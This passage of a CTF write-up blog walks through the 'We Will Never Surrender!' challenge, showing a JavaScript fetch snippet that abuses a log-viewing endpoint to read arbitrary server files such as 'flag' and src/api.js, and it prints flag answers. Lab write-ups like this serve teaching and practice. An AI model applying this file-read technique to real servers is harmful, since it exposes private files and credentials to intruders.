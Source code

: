 
After running it (press 'r' to move piece, and 'wasd' to move selector in the right place instead of the arrow keys), the flag shows up: **flag{i_actually_wasnt_sorry_83911}**.

::image{src="/blog/razorhack-ctf-2024/js-gauntlet-2/were-definitely-doing-this-again-2.jpg" style="width: 100%"}

---

### We Will Never Surrender!

***Ok, we got most of stuff back, but if we can get the master key, we can get access to the terminal and finally secure our systems. The problem is the only copy of the master key is on the server that the attackers have access to. After all this, it seems that they have locked it down and we cannot access any file. Please, this is the last thing I ask of you...***
***~ Justin from IT***

*Solved: 0/33*

The final challenge! This one probably the most difficult, but it does show a lot of cool stuff. This was originally going to be an XSS attack through the notification system, but it was too similar to the one in Jungle Calls last year (doesn't stop me from reusing other challenges, but I digress). The Russian comment says: **It seems like the master key is just placed in the root directory of the server application called 'flag'. What a stupid idea! I'll just, you know, spread this around to where you can't find it so easily...**.

::image{src="/blog/razorhack-ctf-2024/js-gauntlet-2/we-will-never-surrender.jpg" style="width: 100%"}

As the comment suggests, we need to read a file called 'flag' on the root server. If we look at the logs dropdown in the *Account Settings* dialog, we see that in order to fetch the log contents, it sends a file URL to the server. We can tell because it says *logs/[log_name].log*, which hints at a file structure of some sort. We can use this to access any file on the root server, like so...

```javascript
const getFile = (file) => {
    fetch('/api/stage8/show_notification', {
        method: 'post',
        headers: {
            'content-type': 'application/json'
        },
        body: JSON.stringify({ file })
    }).then(response => response.json())
    .then(data => {
        // ew, data.data.data
        console.log(data.data.data.map(byte => String.fromCharCode(byte)).join(''))
    })
}

getFile('flag');
// flag{we
// c3JjL2FwaS5qcw==
```

This gives us the first part of the flag as well as an encoded string. If we decode this string from base64, we get another file path: *src/api.js*. We can continue this until we find all flag parts...
